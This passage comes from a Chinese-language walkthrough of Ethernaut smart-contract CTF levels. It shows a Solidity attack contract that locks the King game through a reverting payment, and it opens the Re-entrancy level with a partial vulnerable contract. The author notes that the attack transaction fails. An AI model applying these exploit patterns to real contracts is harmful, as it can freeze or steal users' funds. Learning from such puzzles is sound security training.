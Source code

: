 ```solidity

    function _king() public view returns (address) {
        return king;
    }
}
```

### 分析

我们要获取 改变 king,并且让其他人不能在 改变king。根据我们之前总结的 [合约函数调用图](#合约函数调用图)。         

那么我们可以设置攻击合约，不设置 `receive` 和 `fallback payable` 函数，即可。

### 攻击
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Hack{
    error CallValueFaild();
    constructor(address payable _target) payable {
        (bool success,) =_target.call{value: King(_target).prize()}("");
        if(!success){
            revert CallValueFaild();
        }
    }
}

```


### 笔记

TODO: 合约 tx 失败

## 9. Re-entrancy

![](https://ethernaut.openzeppelin.com/imgs/BigLevel10.svg)

### 要求
这一关的目标是偷走合约的所有资产。

**这些可能有帮助:**
- 不可信的合约可以在你意料之外的地方执行代码.
- Fallback methods
- 抛出/恢复 bubbling
- 有的时候攻击一个合约的最好方式是使用另一个合约.

### 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }
```